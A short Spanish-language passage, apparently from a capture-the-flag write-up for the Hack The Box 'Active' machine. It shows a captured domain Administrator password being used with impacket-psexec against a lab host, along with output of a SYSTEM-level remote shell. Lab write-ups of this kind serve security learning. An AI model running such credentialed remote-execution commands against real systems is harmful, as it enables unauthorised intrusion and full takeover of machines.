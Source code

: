 Ya tenemos la contraseña del usuario **Administrator** del dominio y podemos conectarnos a la máquina:

```bash
❯ impacket-psexec active.htb/Administrator:Ticketmaster1968@10.10.10.100
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file vzDHsSZG.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service DVAK on 10.10.10.100.....
[*] Starting service DVAK.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

Nos encontramos dentro de la máquina como el usuario `nt authority\system` y podemos visualizar las flags (user.txt y root.txt).

